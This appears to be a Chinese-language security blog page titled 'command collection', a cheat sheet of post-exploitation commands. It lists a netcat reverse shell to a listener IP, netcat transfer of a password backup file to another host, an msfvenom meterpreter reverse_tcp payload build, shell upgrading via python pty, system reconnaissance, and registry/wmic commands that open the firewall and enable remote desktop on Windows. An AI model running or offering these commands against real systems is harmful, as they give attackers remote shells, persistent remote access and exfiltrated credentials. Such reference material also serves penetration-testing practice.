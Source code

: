 ```yaml
---
# 这是页面的图标
icon: api
# 这是文章的标题
title: 命令收集
# 设置作者
author: lhz
# 设置写作时间
time: 2022-03-01
# 一个页面只能有一个分类
category: 安全
# 一个页面可以有多个标签
tag:
  - 命令收集
comment: false

typora-root-url: ..\..\..\.vuepress\public
---
```




#### 通过python获取交互shell tty

``` bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

import pty;pty.spawn(’/bin/bash’)
```

#### nc

``` bash
监听
nc -lvp 4444
回弹
nc -nv 192.168.141.134 4444 -e /bin/bash

使用nc传文件
nc -nvlp 5555 > old-passwords.bak
nc 192.168.141.134 5555 < /home/jim/backups/old-passwords.bak
```

#### 使用python开启web服务

``` bash
python -m SimpleHTTPServer 8090
python3 -m http.server 8090 
```

#### 使用mefvenom生成一个可执行的shell

``` bash
msfvenom  -p linux/x86/meterpreter/reverse_tcp  lhost=192.168.42.128 lport=6666 -f elf -o 6666.elf
```

#### 查看linux系统发行版本、内核版本

``` bash
lsb_release -a
uname -a
cat /proc/version
cat /etc/lsb-release
```

#### windows设置打开防火墙端口

``` bash
netsh firewall set portopening TCP 3389 ENABLE   #防火墙开启远程桌面3389端口
```

#### windows开启远程桌面

``` bash
#设置远程桌面端口
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_DWORD /v portnumber /d 3389 /f
#开启远程桌面
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
#检查端口状态
netstat -an|find "3389"
#关闭远程桌面
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 0
```


